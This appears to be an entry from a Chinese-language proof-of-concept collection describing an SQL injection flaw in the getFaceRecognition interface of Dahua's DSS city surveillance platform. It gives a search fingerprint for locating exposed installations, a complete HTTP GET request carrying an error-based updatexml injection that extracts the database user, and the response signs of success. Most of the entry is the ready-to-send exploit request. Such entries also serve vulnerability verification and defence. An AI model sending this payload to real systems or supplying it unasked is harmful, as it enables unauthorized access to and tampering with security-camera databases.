 ﻿# 大华城市安防监控系统平台管理 getFaceRecognition SQL注入漏洞

> 更新时间：2024-05-07

> 漏洞编号：

> 漏洞说明：大华DSSgetFaceRecognition接口存在SQL注入漏洞。攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

> 漏洞特征：app="dahua-DSS"

> 验证脚本：HTTP

```
GET /portal/services/carQuery/getFaceRecognition/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20user()),0x7e),1)--%22%7D/extend/1 HTTP/1.1
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

> 响应代码特征：500

> 响应内容特征：soap

> 上传文件定位：

> 验证文件来源：大华城市安防监控系统平台管理 getFaceRecognition SQL注入漏洞.poc

